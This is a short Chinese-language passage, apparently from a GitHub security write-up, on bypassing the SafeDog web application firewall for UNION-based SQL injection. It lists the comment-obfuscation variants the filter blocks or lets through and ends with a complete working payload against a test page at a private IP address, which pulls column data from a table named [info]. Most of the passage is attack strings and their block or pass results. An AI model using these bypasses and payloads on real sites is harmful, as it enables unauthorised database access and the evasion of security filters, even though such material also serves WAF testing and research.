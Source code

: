 
### 0x02 简单的联合bypass

union/*!1113*/

联合注入感觉是个非常简单的bypass过程，因为安全狗的规则把mysql和mssql混为一谈 

```
union 不拦截

union select 拦截

unionselect 拦截

```

感觉是不是已经很绝望没办法绕过了，不妨试试注释，虽然mssql没有内联注释

```
union/*select*/ 不拦截

union/*!select*/ 拦截

union/*!1select*/ 不拦截

```

我们试试闭合他，他还拦截不

```
union/*!1*/select--*/  不拦截

```

我们的最终的payload也构造好了

```
http://192.168.130.137/1.aspx?id=1 union/*!1*/select null,name,null from [info]--*/

```

![mysql](./img/2.3.2.png)
